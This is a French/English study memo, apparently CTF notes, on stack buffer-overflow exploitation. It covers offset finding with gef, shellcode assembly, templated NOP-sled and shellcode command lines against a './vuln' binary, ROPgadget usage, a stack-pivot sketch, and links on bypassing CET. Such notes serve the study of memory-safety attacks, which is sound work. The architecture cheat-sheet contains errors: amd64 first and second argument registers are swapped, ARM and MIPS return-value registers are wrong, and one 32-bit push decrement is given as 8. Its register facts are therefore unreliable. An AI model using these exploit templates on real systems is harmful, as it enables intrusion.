









## Documentation

-  https://en.wikipedia.org/wiki/Stack-based_memory_allocation

## Stack exploitation (x86/amd64 examples)

La pile - `GNU_STACK` - contient des addresses, empilees/depilees selon les instructions/le code - `.text` -.
Voici un memo de ce qui suit pour les correspondances x86/arm:

- https://syscalls.mebeim.net/?table=x86/64/x64/latest
- compléments:

- ` ssize_t read(int fd, void buf[.count], size_t count);` :
	- &buffer = 2nd argument => **break gdb pour connaître &buf**
	- `read(stdin, buf, 40)` : ne rajoute pas de **NULL** + **leakable**, pivot exploitable ssi $pc = &read + conn.send(rop), stop avec "\n" ou NULL
	- `scanf("%40s", buf)`: prend 40 bytes puis rajoute **NULL** (1 byte overflow)

- 32 bits: pc-=4, 64 bits: pc-=8

- **Cheatsheets**:
	- [Intel/AMD64 SSE](https://en.wikipedia.org/wiki/Streaming_SIMD_Extensions)
	- [ARM - Azeria](https://azeria-labs.com/writing-arm-assembly-part-1/)
	- [MIPS](https://www.kth.se/social/files/54948c82f276540590491ed4/mips-ref-cheat-sheet.pdf)

```
--------------------------------------------------------
|            |  x86  | amd64 | arm    | aarch64 | mips |
--------------------------------------------------------
| ret val reg|  eax  | rax   | r7     |   x8   |  ra   |
--------------------------------------------------------
|   1st arg  |[eax+4]| rsi   | r0     |   x0   |  a0   |
--------------------------------------------------------
|   2nd arg  |[eax+8]| rdi   | r1     |   x1   |  a1   |
--------------------------------------------------------
|    call    |int0x80| call  | lr(r14)|   lr   |syscall|
--------------------------------------------------------
|  func ret  |  eax  | rax   | r0     |   x0   | v0,v1 |
--------------------------------------------------------
|  IP / PC   |  eip  | rip   | pc(r15)|   pc   |  pc   |
--------------------------------------------------------
|  stack pt  |  esp  | rsp   | sp(r13)|   sp   |  sp   |
--------------------------------------------------------
|  frame pt  |  ebp  | rbp   | fp(r11)|   fp   |  fp   |
--------------------------------------------------------
|  mem load  |  mov  | mov   | ldr    |   ldr  | li,lw |
--------------------------------------------------------
|  mem store |  mov  | mov   | str    |  str |sb,sh,sw |
--------------------------------------------------------
```

**Registres (CPU)**

- **ebp** = base pointer: `*ebp = &base`
- **esp** = save pointer: `*esp = &top`
- **eip** = instruction pointer (pointe vers la prochaine instruction): `*eip = &next_instruction`

**Stack**

- **saved ebp** = (mémoire) sauvegarde du caller ebp (base de la frame) sur la stack
- **saved eip** = (mémoire) sauvegarde du caller eip (addresse de retour) sur la stack

**Text (Instructions)**

- **call** = `push eip; jmp (addr func)` = sauvegarde eip (addresse du ret) sur la frame de callee (func), et saute sur func (suite => prologue)
- **leave** = `mov esp, ebp; pop ebp` = retablit esp (en le rabaissant a esp), puis ebp = & saved ebp
- **ret** = `pop eip; jmp (addr main)` = instruction permettant de mettre eip = &saved eip et d'éxécuter le code contenu à saved eip

Rq:

- 1 word = 2bytes
- `push ebp` => `esp -=4; *esp = ebp` (x86 => double word (la pile se decale de 4byte a chaque instruction))
- `push rbp` => `rsp -=8; *rsp = rbp` (x64 => quad word)

Le but est donc :

-1) de contrôler saved eip
-2) d'atteindre le ret afin d'éxécuter le shellcode qu'on placera à partir de seip

Exemple:





#### Technique plus simples (pas de calcul pour les NOP)




- *Find Offset (eip = return address)*

```bash
gef -q ./vuln
pattern create 500

# break main
run # adapt arguments
info frame 

x/4s <addresse saved eip>
pattern search <contenu saved eip>
```

- *Find Shellcode Address*
	- *using previous esp (procedure n-1) in gdb* : `b *main; r $(python -c 'print('A'*<offset_seip>)`
	- *using environment*: `export LOGNAME = $(python -c "print('\x90'*100 + <shellcode>")` and use [./getenv LOGNAME](./getenv.c)

- Go to shell-storm or create shellcode.

```bash
objcopy -O binary -K shellcode shellcode.o temp.bin
hexdump -v -e '"\\""x" 1/1 "%02x" ""' temp.bin > shellcode.bin
```

**Ssi pwntools**

```bash
pwn asm -c32 -i shellcode.asm -f string
pwn asm -c amd64 -i shellcode.asm -f string
```

**Ssi radare2**

```bash
#r2 - obtenir un opcode en armv8
rasm2 -aarm -b64 -C 'nop'
```

- Exploit



```bash
./vuln $(python -c "print('A'*<offset_seip> + <&eip (half in nops)> + '\x90'*300 + <shellcode>
```

```
# environment variant
./vuln $(python -c "print('A'*<offset_seip> + <environment_address_var>)"
```

Other method:



## Memo stack 

- https://maxnilz.com/docs/005-lang/moderncpp/004-pointer-ref/#21-references-or-aliases-
- https://zestedesavoir.com/articles/100/introduction-aux-buffer-overflows/



### Alignement

```
*ebp = &base
*esp = &top
```

`push ebp` => `esp -=8; *esp = ebp`
`push rbp` => `rsp -=8; *rsp = rbp`

- https://stackoverflow.com/questions/1061818/stack-allocation-padding-and-alignment


```txt
It's a gcc feature controlled by -mpreferred-stack-boundary=n where the compiler tries to keep items on the stack aligned to 2^n. If you changed n to 2, it would only allocate 8 bytes on the stack. The default value for n is 4 i.e. it will try to align to 16-byte boundaries.
```

### ROP - Useful notes

```bash
ROPGadget --binary vuln --ropchain
ROPGadget --binary vuln --multibr | grep "syscall" #syscall; ret
ROPGadget --binary vuln | grep "pop"		   #control registers (when *rsp = @ pop rdi)
# payload += POP_RDI		| @pop rdi;ret	   <- RSP
# payload += 0xdeadbeef		| 0xdeadbeef	   <- RBP
```

#### Pivot

- https://www.lazenca.net/display/TEC/16.Stack+pivot
- https://nickgregory.me/post/2019/04/06/pivoting-around-memory/
- https://ir0nstone.gitbook.io/notes/binexp/stack/stack-pivoting/exploitation/leave
- https://book.hacktricks.xyz/fr/reversing-and-exploiting/linux-exploiting-basic-esp/stack-overflow/stack-pivoting-ebp2ret-ebp-chaining
- `ret => pc += 4|8` (32|64 bits) : **sE|RBP = &buffer - 4|8**

```asm
#SEIP = pivot1 + pivot2

MAIN:
	sEBP = fff
	EBP = 0xabcde
	RSP = 0xfghij
	PADDING - sEBP(.data) - SEIP(&leave_ret*2)

leave_ret1:
	(leave:)
	RSP = RBP
	POP RBP => RBP = &.data
	(ret:)
	POP EIP => &(leave_ret2)

leave_ret2:
	(leave:)
	RSP = RBP
	POP RBP
	(ret:)
	POP EIP => &buf

section .data
	buf [read(0,buffer,99999)			] PADDING

NVXbuffer[ROPChain]
```



### CET & Shadow stack

- https://book.hacktricks.xyz/binary-exploitation/common-binary-protections-and-bypasses/cet-and-shadow-stack
- https://gmo--cybersecurity-com.translate.goog/blog/intel-cet-bypass-on-linux-userland/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=de&_x_tr_pto=wapp

### JIT - ROP

- https://www.ieee-security.org/TC/SP2013/papers/4977a574.pdf
- https://www.usenix.org/conference/usenixsecurity16/technical-sessions/presentation/maisuradze
